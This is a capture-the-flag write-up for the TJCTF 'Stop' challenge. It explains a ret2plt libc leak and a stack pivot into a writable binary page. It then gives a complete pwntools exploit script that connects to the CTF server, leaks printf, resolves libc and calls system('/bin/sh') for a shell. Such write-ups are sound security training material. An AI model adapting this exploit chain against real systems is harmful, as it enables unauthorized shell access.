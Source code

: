 # Stop

This has been explained in countless writeups, so I won't go over it largely, but there's NX and no PIE. So we can use ret2plt, like always, to leak a libc address.

## LARGE PROBLEM!

Main is quite a complex function. For the purposes of buffer overflow, this is irrelevant to us. However, if we just overwrite RBP with a bunch of As, it means that errors will be caused at an instruction like `mov DWORD PTR [rbp-0x8], 0x9` , and whenever pop is called\(after rsp is set to rbp\). Thus, we must give rbp some form of authentic value so we can basically move the stack somewhere else. There is a page mapped read and write inside of the binary at around `0x602000-0x603000` . We can set rbp to a value around here to create a nice fake stack, then execute a ret2libc attack.

```python
from pwn import *
NUM_TO_RET = 282
padding = b'A' * NUM_TO_RET
e = ELF("./stop")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
poprdi = 0x0000000000400953 # pop rdi ; ret
poprsi = 0x0000000000400951
#p = e.process()
p = remote('p1.tjctf.org', 8001)
leak = flat(poprdi, e.got['printf'],poprsi, 0, 0, e.plt['printf'], 0x0000000000400747, word_size=64)
payload = padding[:-8] + p64(0x000000000602000 + 0x1000 - (0x20 + 0x8 * 10)) + leak
p.sendline(payload)
p.recvlines(9)
output = p.recvuntil("Which")[:-5]
output += b'\x00\x00'
printf = u64(output)
log.info(f"Printf: {hex(printf)}")
libcbase = printf - libc.symbols['printf']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
chain = flat(poprdi, next(libc.search(b"/bin/sh\x00")), poprsi, 0, 0, libc.symbols['system'], word_size=64)
payload = padding + chain
pause()
p.sendline(payload)
p.interactive()
```

